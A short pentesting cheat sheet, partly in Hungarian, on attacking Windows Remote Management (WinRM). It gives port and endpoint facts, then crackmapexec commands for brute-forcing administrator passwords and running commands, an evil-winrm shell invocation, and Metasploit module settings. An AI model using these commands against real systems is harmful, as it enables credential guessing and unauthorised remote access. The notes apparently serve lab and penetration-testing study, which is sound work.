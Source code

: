 # winrm
## info
* alapbol nincs engedelyezve  
* es kulon be kell konfiguralni windows-on ahhoz hogy mukodjon rajta  
* remote access protocol over HTTP or HTTPS  
* tcp/5985,5986  
* Default top 1000 nmap scan nem mutatja  
* Http api ez a banner nmapnal  
* Command futtatasra lehet alapvetoen hasznalni
* /wsman -> ez a default url, amin fut
## auth modes
* Uername + password
* username + password hash  
## bruteforcing credentials
crackmapexec winrm 10.10.10.1 -u administrator -p passwords.txt
## run commands
crackmapexec winrm 10.10.10.1 -u administrator -p pass123 -x "whoami"
## shell access
### evil-winrm ruby script
evil-winrm.rb -u administrator -p 'pass123' -i 10.10.10.1
### metasploit
use /exploit/windows/winrm_script_exec  
set force_vbs true //lehet hogy erre szukseg lesz, lehet hogy nem  
probalkozhatunk staged vagy stageless payload-al

